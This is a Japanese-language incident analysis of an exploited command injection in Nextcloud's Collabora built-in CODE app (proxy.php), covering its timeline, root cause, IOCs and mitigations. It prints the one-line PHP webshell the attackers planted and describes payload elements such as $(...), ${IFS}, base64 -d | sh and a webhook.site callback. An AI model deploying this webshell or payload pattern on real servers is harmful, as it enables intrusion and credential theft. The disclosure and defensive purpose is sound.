

# Nextcloud Collabora CODE ― proxy.php経由でWebシェル設置

## 要点

### 影響バージョン

- **Collabora Online - Built-in CODE Server（パッケージ名 `richdocumentscode`）** の **26.4.303 より前**（Collabora GHSA、CVEレコード）。
- 対象は、Nextcloud上でこのアプリがローカルにCODE（Collabora Online Development Edition）のAppImageをダウンロードして動かす構成だけ。スタンドアロンの Collabora Online サーバ、DockerやLinuxパッケージ、ホスティング事業者のCollabora、および `richdocuments`（Nextcloud Office）だけで外部のCollaboraを指している構成は対象外（Collabora、Nextcloudコミュニティフォーラム）。
- CVSS 4.0 は 9.2（AV:N / AC:L / AT:P / PR:N / UI:N / VC:H / VI:H / VA:H）。「AT:P」は、組み込みCODEサーバが動いていないときだけ成立する条件を指す（GHSA）。
- CVEレコードは「2026年9月と10月に実環境で悪用された」と明記している（CVE）。

### 今すぐやること

- Nextcloudのアプリ一覧で `richdocumentscode`（表示名: Collabora Online - Built-in CODE Server）を確認する。入っていれば **26.4.303 以降へ更新するか、アプリを削除する**。無効化だけでは閉じない（Collabora）。
- Nextcloud 29以前（サポート終了）は、アプリストアが修正版を配らないため、Nextcloud自体を上げるかアプリを削除する（Collabora）。
- すでに更新した場合も、`apps/richdocumentscode/` 以下の `shx*.php` などの残り物を消し、少なくとも9月10日以降のアクセスログで `proxy.php?status` への、パスに `%2e%2e`・`$(`・`${IFS}` を含むリクエストを洗う（GitHub Issue #354、mmeeks氏の案内）。
- Webサーバ権限で読めるもの（パスワードマネージャのDB、暗号資産ウォレット、設定ファイルなど）は漏えいした前提で扱い、必要なら入れ替える（最初の報告者）。

## 概要

- Nextcloudの文書編集を、別サーバを立てずに試すための任意アプリ `richdocumentscode` が、ローカルのCODEを起動する `proxy.php` でOSコマンドインジェクションを起こしていた（Collabora）。
- 攻撃が通るのは、組み込みCODEが止まっている間（再起動・更新・クラッシュの直後など）だけだが、その間は **認証なしのGET** でWebサーバ権限のコマンド実行ができる（Collabora、GitHub Issue）。
- 2026年9月10日から複数の管理者が侵入を報告し、Webシェルの設置と、資格情報ストアや暗号資産ウォレットの探索が確認された。修正版 26.4.303 は9月11日に出ていたが、CVEと公式アドバイザリの公開は10月14日だった（GitHub、CVE、The Hacker News）。

> この記事では、ベンダー・公的機関・研究者・報道で確認できた内容を「事実」、筆者の推測や意見を「考察」として分けて書いています。

## 何が起きたか（時系列）

| 日時 | 出来事 |
| --- | --- |
| 2025-12 | 同じ `proxy.php` の別経路のコマンドインジェクション CVE-2025-66208 が公表。修正は 25.04.702。今回の欠陥とは別経路で、その修正では防げない（Collabora） |
| 2026-08-20 | Caolán McNamara 氏が、起動コマンドの組み立てを直す変更を作成（コミットメッセージは「tidy up how the coolwsd launch command is built」）（GitHub） |
| 2026-08-31 | 脆弱な **26.4.302** が公開される。上記の修正は含まれていない（GitHub Releases） |
| 2026-09-09 | 修正コミットがリポジトリに入る（GitHub） |
| 2026-09-10 19:51（UTC+2） | 最初の報告者のサーバで、IP `139.28.18.122` からの攻撃ログ。`proxy.php?status` を狙い、パスにシェルコマンドを埋め込んでいた（GitHub Issue #354） |
| 2026-09-11 09:56（UTC+2） | 同IPから別サーバへの同様の攻撃（同Issue） |
| 2026-09-11 | **26.4.303** が公開される。リリースノートは同梱CODEの更新のみで、セキュリティ修正とは書いていない（GitHub Releases） |
| 2026-09-11〜 | 複数の管理者が同じ手口での侵入を報告。Integrity Checkで未知のPHPを見つけた例、sudo失敗のメールで気づいた例など（GitHub Issue #354） |
| 2026-09-14 | 修正済みサーバに対し、別IP `89.38.98.50` から同種の試行。新しいシェルファイルは作られなかった（同Issue、mmeeks氏） |
| 2026-09-24 | **26.4.402** 公開。起動を `proc_open` ベースに書き換えるなどしたが、一部環境で文書が開けない・自動起動しない不具合の報告があり、26.4.303へ戻す管理者が出た（GitHub Issue #355、#356） |
| 2026-09月末〜 | Issue上で「ランサムウェア業者が悪用し始めた」との書き込み。CVEの有無を求める声（同Issue） |
| 2026-10-03 | Nextcloudコミュニティフォーラムに「CVEも警告もないが、すでに悪用されているので至急更新を」との投稿（help.nextcloud.com） |
| 2026-10-14 | Collaboraが GHSA-g3vx-3m76-fghh を公開、CVE-2026-110447 が付く（Collabora、CVE） |

## 技術的な問題点（根本原因）

**事実（脆弱な 26.4.302 の `proxy.php`、修正コミット）**

- `proxy.php` は Nextcloudの本体を読み込まず、アプリフォルダからWebサーバが直接実行するPHPである。`?status` の要求で、組み込みCODEが動いていなければ `startCoolwsd()` を呼ぶ。
- `startCoolwsd()` は、フォント設定URLなどを組み立てたうえで、次のような起動コマンドを `exec` していた（26.4.302）:

```text
bash -c "( $appImage $remoteFontConfig ... --pidfile=$pidfile || $appImage --appimage-extract-and-run ... ) >/dev/null & disown"
```

- `$remoteFontConfig` は、HTTPSのとき `$_SERVER['REQUEST_URI']` を使ってフォント設定のURLを作る。`escapeshellarg` はURL全体に掛かるが、出来上がった文字列は **外側の二重引用符の中** に埋め込まれる。bashの二重引用符の中では `$(...)` がまだ展開されるため、リクエストのパスに仕込んだコマンドが、CODE起動時にシェルとして走る。
- 修正（26.4.303）では、内側のコマンド全体を `escapeshellarg($innerCmd)` してから `bash -c` に渡す形に変え、リクエスト由来の文字列がシェルに解釈されないようにした（コミット `6cc8dae`）。

**事実（Collabora、CVE）**

- 攻撃が成立するのは、組み込みCODEサーバが動いていないときだけである。再起動・更新・クラッシュの直後などが該当する。
- アプリを「無効化」しても `proxy.php` はWebから届くため、閉じるには更新か削除が必要である。
- CVE-2025-66208 の修正では防げない、別経路である。

**考察**

`escapeshellarg` を部分的に使っていても、その結果をさらに二重引用符の中へ連結すれば、シェルの二次解釈が残る。PHP側で「引数をエスケープした」つもりでも、最終的に `bash -c "..."` の中に入れば、`$()` は生きる。修正が「起動オプションを1つの引数として渡す」形になったのは、シェルに解釈させる回数を減らす方向である。コミットメッセージがセキュリティ修正を名乗っていなかったことも、9月中に「直った版」だと気づけない管理者が出た一因になっている。

## 攻撃・侵入経路



**事実（GitHub Issue #354、The Hacker News）**

- 最初の報告者（複数のNextcloudを運用）は、9月10日・11日のアクセスログで攻撃を確認した。パスに `%2e%2e`、`$(...)`、`${IFS}`、`base64 -d | sh` を含む `proxy.php?status` へのGETだった。全台が 26.4.302 だった。
- デコードすると、Base64のPHPを `shrf4645.php` / `shxa35d0.php` などに書き出し、`uname -a` の結果を webhook.site へ送る動きだった。残されたシェルは概ね次の1行だった:

```php
<?php $c=$_GET['c']??'id'; echo shell_exec($c.' 2>&1');
```

- 報告されたファイル名の例: `shrf4645.php`、`shxa35d0.php`、`shx5cf91.php`、`shxd33ce.php`、`shxf4645.php`。SHA-256（上記1行シェル）: `4b9fbd0663fbfd6028fc216ed18e0d6ef3ae498a7fdc97083e4b0ce3cec40562`（The Hacker News）。
- 攻撃元IPの例: `139.28.18.122`（9月10・11日）、`89.38.98.50`（9月14日の修正済みサーバへの試行）。
- 1台では、Webシェル経由で `*.kdbx`、`wallet.dat`、`keystore.json`、bitwarden / 1password / .bitcoin / .electrum / .monero / .ethereum などの探索が走った。ログ上、アーカイブ化や外部へのコピーは確認されなかったが、Webサーバが読めるものは漏えいした可能性を否定できない、と報告者は書いている。root権限の取得は、いずれの報告でも確認されていない。
- Collabora側の mmeeks 氏は、「Development Edition の、ローカルAppImageを落とす組み込み構成に限る」「比較的まれな構成」と説明している。

## なぜ防げなかったか・構造的要因の考察

ここからは筆者の考察である。

1. **「試用向け」アプリが本番に残る**: アプリストアの説明は「ローカルのテストと非本番向け」「個人や小さなチーム向け」である。それでも本番のNextcloudに入り、インターネットから `proxy.php` に届く位置に置かれる。試用のまま残すと、本番の認証・セッションの外で動くPHPが、境界に開きっぱなしになる。
2. **Nextcloudの外で動く入口**: `proxy.php` はNextcloudのコードを読み込まない。アプリの無効化やNextcloud側の権限では届かない。直す手段が「アプリの更新か削除」に限られるのはこのためである。
3. **修正は先に出ていたが、CVEが遅れた**: 26.4.303は攻撃翌日に出ていた。一方、GHSAとCVEは約1か月後である。GitHub Advisory Databaseの処理遅延に言及する投稿もあり、フォーラムでは「CVEも警告もないが悪用されている」と10月3日に呼びかけが出た。利用者が「セキュリティ修正として」追える情報が、実害の後追いになった。
4. **修正の次の版が不安定で戻される**: 26.4.402は起動方法を変えたが、文書が開けない・自動起動しない報告が続き、安全な26.4.303へ戻す運用が現実的になった。セキュリティ修正のあとに互換性の問題が続くと、「最新へ上げる」以外の選択肢が必要になる。
5. **窓が短いのに、攻撃は窓を狙える**: 成立条件は「CODEが止まっている間」だけである。コンテナの再起動やアプリ更新の直後は、運用上かならず発生する。攻撃者はステータス用のURLを叩き続け、窓が開いた瞬間にシェルを置けばよい。

## 運用者向けの具体的な対策と検知ポイント

**対策（Collabora・報告者・コミュニティの案内を要約）**

1. `richdocumentscode` を 26.4.303 以降にするか、削除する。無効化では足りない。
2. Nextcloud 29以前は、Nextcloudをサポート対象へ上げるか、アプリを削除する。
3. 本番では、可能なら組み込みCODEではなく、分離した Collabora Online（Docker / パッケージ / ホスト事業者）を `richdocuments` から参照する構成へ移す。
4. 侵害後は、`shx*.php` などを削除し、Webサーバ権限で読める秘密情報を入れ替える。

**検知ポイント**

- アクセスログの `proxy.php?status` で、パスに `%2e%2e`、`$(`、`${IFS}`、`base64` を含むもの（9月10日以前に遡る）。
- `apps/richdocumentscode/` 配下の、配布物にない `shx*.php` など。Nextcloudの Integrity Check の失敗も手がかりになる。
- Webサーバユーザーによる想定外の `sudo` 試行（報告例あり）。
- 公開IOC（The Hacker Newsが整理）: 上記のファイル名・ハッシュ、IP `139.28.18.122` / `89.38.98.50`、webhook.site へのコールバック。

**考察**

組み込みCODEを残すなら、Webサーバの実行ユーザーが読める範囲を最小にし、パスワードマネージャやウォレットを同じホストに置かない。今回の探索対象を見ると、攻撃者は「Nextcloudの中」だけでなく、同じOSユーザーから見えるホームディレクトリ側も見にいっている。

## 参考リンク

- Collabora: [GHSA-g3vx-3m76-fghh — Unauthenticated OS command injection in the richdocumentscode proxy](https://github.com/CollaboraOnline/online/security/advisories/GHSA-g3vx-3m76-fghh)
- CVE: [CVE-2026-110447](https://www.cve.org/CVERecord?id=CVE-2026-110447)
- 修正コミット: [tidy up how the coolwsd launch command is built（6cc8dae）](https://github.com/CollaboraOnline/richdocumentscode/commit/6cc8dae54c92bae27d53c54b9898cf1123ca2066)
- GitHub Issue: [#354 Security issue - Hack](https://github.com/CollaboraOnline/richdocumentscode/issues/354)
- リリース: [26.4.303](https://github.com/CollaboraOnline/richdocumentscode/releases/tag/26.4.303)
- Nextcloudコミュニティ: [To Collabora Built-in User: Update ASAP](https://help.nextcloud.com/t/to-collabora-built-in-user-update-asap/250516)
- The Hacker News: [Hackers Backdoor Nextcloud Servers Through Critical Flaw in Collabora’s Built-in CODE App](https://thehackernews.com/2026/10/hackers-backdoor-nextcloud-servers.html)
- 関連（別経路）: [GHSA-j3q6-q5pc-v5wf / CVE-2025-66208](https://github.com/CollaboraOnline/online/security/advisories/GHSA-j3q6-q5pc-v5wf)
